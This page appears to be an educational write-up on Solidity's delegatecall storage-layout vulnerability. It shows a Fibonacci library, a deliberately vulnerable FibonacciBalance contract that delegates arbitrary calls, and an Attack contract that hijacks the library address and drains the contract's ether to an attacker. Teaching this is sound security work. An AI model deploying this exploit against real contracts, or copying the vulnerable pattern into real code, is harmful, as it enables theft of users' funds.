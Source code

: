 # DELEGATECALL

## DELEGATECALL

## DELEGATECALL

State or storage variables \(variables that persist over individual transactions\) are placed into slots sequentially as they are introduced in the contract. See [Solidity docs](https://solidity.readthedocs.io/en/latest/miscellaneous.html#layout-of-state-variables-in-storage) for more details.  
Solidity stores variables to storage or memory, depending on the type. Uninitialized storage pointers will, by default, point to the initial storage position \(0\) and can be used to alter the stored value.  
**`delegatecall`** preserves contract context. This means that code that is executed via delegatecall will act on the state \(i.e., storage\) of the calling contract.

Consider the library in FibonacciLib.sol, which can generate the Fibonacci sequence and sequences of similar form. \( Note: this code was modified from [https://bit.ly/2MReuii.](https://bit.ly/2MReuii.) \)

// library contract - calculates Fibonacci-like numbers  
contract FibonacciLib {  
    // initializing the standard Fibonacci sequence  
    uint public start;  
    uint public calculatedFibNumber;

    // modify the zeroth number in the sequence  
    function setStart\(uint \_start\) public {  
        start = \_start;  
    }

    function setFibonacci\(uint n\) public {  
        calculatedFibNumber = fibonacci\(n\);  
    }

    function fibonacci\(uint n\) internal returns \(uint\) {  
        if \(n == 0\) return start;  
        else if \(n == 1\) return start + 1;  
        else return fibonacci\(n - 1\) + fibonacci\(n - 2\);  
    }  
}

Let us now consider a contract that utilizes this library, shown in FibonacciBalance.sol.

contract FibonacciBalance {

    address public fibonacciLibrary;  
    // the current Fibonacci number to withdraw  
    uint public calculatedFibNumber;  
    // the starting Fibonacci sequence number  
    uint public start = 3;  
    uint public withdrawalCounter;  
    // the Fibonancci function selector  
    bytes4 constant fibSig = bytes4\(sha3\("setFibonacci\(uint256\)"\)\);

    // constructor - loads the contract with ether  
    constructor\(address \_fibonacciLibrary\) public payable {  
        fibonacciLibrary = \_fibonacciLibrary;  
    }

    function withdraw\(\) {  
        withdrawalCounter += 1;  
        // calculate the Fibonacci number for the current withdrawal user-  
        // this sets calculatedFibNumber  
        require\(fibonacciLibrary.delegatecall\(fibSig, withdrawalCounter\)\);  
        msg.sender.transfer\(calculatedFibNumber \* 1 ether\);  
    }

    // allow users to call Fibonacci library functions  
    function\(\) public {  
        require\(fibonacciLibrary.delegatecall\(msg.data\)\);  
    }  
}

Storage slot\[0\] now corresponds to the fibonacciLibrary address, and slot\[1\] corresponds to calculatedFibNumber. It is in this incorrect mapping that the vulnerability occurs.  
recall that the start variable in the FibonacciLib contract is located in storage slot\[0\], which is the fibonacciLibrary address in the current contract. This means that the function fibonacci will give an unexpected result. This is because it references start \(slot\[0\]\), which in the current calling context is the fibonacciLibrary address \(which will often be quite large, when interpreted as a uint\). Thus it is likely that the withdraw function will revert, as it will not contain uint\(fibonacciLibrary\) amount of ether, which is what calculatedFibNumber will return.

Even worse, the FibonacciBalance contract allows users to call all of the fibonacciLibrary functions via the fallback function at line 26. As we discussed earlier, this includes the setStart function. We discussed that this function allows anyone to modify or set storage slot\[0\]. In this case, storage slot\[0\] is the fibonacciLibrary address. Therefore, an attacker could create a malicious contract, convert the address to a uint \(this can be done in Python easily using int\('&lt;address&gt;',16\)\), and then call setStart\(&lt;attack\_contract\_address\_as\_uint&gt;\). This will change fibonacciLibrary to the address of the attack contract.

contract Attack {  
    uint storageSlot0; // corresponds to fibonacciLibrary  
    uint storageSlot1; // corresponds to calculatedFibNumber

    // fallback - this will run if a specified function is not found  
    function\(\) public {  
        storageSlot1 = 0; // we set calculatedFibNumber to 0, so if withdraw  
        // is called we don't send out any ether  
        &lt;attacker\_address&gt;.transfer\(this.balance\); // we take all the ether  
    }  
 }

### Resources

[https://solidity.readthedocs.io/en/latest/contracts.html?highlight=library\#libraries](https://solidity.readthedocs.io/en/latest/contracts.html?highlight=library#libraries)  
[https://solidity.readthedocs.io/en/latest/miscellaneous.html\#layout-of-state-variables-in-storage](https://solidity.readthedocs.io/en/latest/miscellaneous.html#layout-of-state-variables-in-storage)

